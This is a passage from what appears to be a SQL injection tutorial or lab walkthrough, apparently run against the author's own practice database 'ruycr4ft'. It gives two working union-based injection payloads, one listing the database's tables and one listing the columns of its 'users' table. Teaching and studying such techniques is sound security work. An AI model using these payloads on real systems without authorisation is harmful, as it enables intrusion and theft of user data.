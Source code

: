 Great! Now we know the name of the databases, so let's enum the tables of `ruycr4ft`:

```sql
1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='ruycr4ft'-- -
```

![](/assets/img/SQLi/16.png)

All right! So here we can see the table `users`. Let's enumerate its columns!

```sql
1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='ruycr4ft' and table_name='users'-- -
```

![](/assets/img/SQLi/17.png)
